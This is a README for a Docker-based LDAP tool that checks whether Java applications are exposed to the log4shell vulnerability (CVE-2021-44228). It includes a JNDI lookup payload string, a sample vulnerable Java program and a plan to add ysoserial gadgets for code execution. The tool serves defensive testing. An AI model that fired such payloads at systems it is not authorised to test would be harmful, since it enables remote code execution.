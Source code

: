 # log4shell-ldap
A tool for checking [log4shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability mitigations.

## Usage:
- Build a container image: `docker build . -t log4shell`
- Run it: `docker run -p 3000:3000 -p 1389:1389 -e publicIp=<IP> log4shell`

Replace `<IP>` with an actual IP address of the host running the container. For local tests `localhost` should work just fine. 

Once the tool is running use `curl` to test it's reachable: `curl http://localhost:3000` 

This should print something like this:
```
$ curl http://localhost:3000
To test an application try to make log4j print ${jndi:ldap://localhost:1389/probably_not_vulnerable}
```
This output indicates the tool is running and curl was able to connect to it. 
If `curl` fails then check the IP address passed to `docker run`.

Assuming the `curl` test works then you can test an actual Java application. 
This is the simplest Java application:
```java
package mypackage;

import org.apache.logging.log4j.LogManager;

public class Main {
    public static void main(String[] args) throws Exception {
        LogManager.getLogger(Main.class).fatal("${jndi:ldap://<IP>:1389/probably_not_vulnerable}");
    }
}
```
Again, replace `<IP>` with the IP address you used to start a container image. 
To compile it with Maven you will have to add following dependency into`pom.xml`:
```xml
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <version>2.14.1</version>
</dependency>
```
The application has 3 possible outcomes:
- Prints _totally pwned!_. This is happening when a vulnerable log4j2 version is executed on old Java.
   This is the worst case as it allows a very simple arbitrary remote code execution.
- Prints _Reference Class Name: probably vulnerable_. This means a vulnerable log4j2 version is executed on recent Java.
   This makes it a bit harder to abuse the vulnerability, but RCE may still be possible and there is also a risk of DoS.
- Prints _${jndi:ldap://<IP>:1389/probably_not_vulnerable}_
   This means the application is either not vulnerable or the test is misconfigured :)

## TODO
- Local build. The build relies on JAR being available at the compilation time. This is trivial to achieve
with containerized builds, but harder when building outside containers.
- Refactoring. The code is simply hideous. 
- Public container into DockerHub. Is this a good idea?
- Include Gadgets from the [yoserial project](https://github.com/frohoff/ysoserial) to try to RCE when running 
on recent Java updates. 

## Disclaimer
This is an educational tool intended for checking various log4shell mitigations. 
